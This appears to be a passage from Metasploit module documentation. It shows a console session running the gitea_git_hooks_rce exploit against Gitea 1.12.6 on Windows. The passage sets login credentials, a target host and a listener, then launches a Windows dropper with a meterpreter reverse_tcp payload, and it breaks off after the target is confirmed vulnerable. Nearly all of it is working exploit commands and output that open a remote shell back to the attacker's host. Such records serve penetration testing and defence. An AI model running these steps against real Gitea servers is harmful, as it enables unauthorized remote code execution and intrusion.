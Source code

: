 
### Gitea 1.12.6 on Windows

```
msf6 > use multi/http/gitea_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_hooks_rce) > set USERNAME msfuser
USERNAME => msfuser
msf6 exploit(multi/http/gitea_git_hooks_rce) > set PASSWORD Msf!23
PASSWORD => Msf!23
msf6 exploit(multi/http/gitea_git_hooks_rce) > set rhosts 192.168.144.195
rhosts => 192.168.144.195
msf6 exploit(multi/http/gitea_git_hooks_rce) > set RPORT 3000
RPORT => 3000
msf6 exploit(multi/http/gitea_git_hooks_rce) > set LHOST 192.168.144.1
LHOST => 192.168.144.1
msf6 exploit(multi/http/gitea_git_hooks_rce) > set target 3
target => 3
msf6 exploit(multi/http/gitea_git_hooks_rce) > options

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Msf!23           yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.144.195  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   msfuser          yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Windows Dropper


msf6 exploit(multi/http/gitea_git_hooks_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/gitea_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Gitea version is 1.12.6
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Authenticate with "msfuser/Msf!23"
```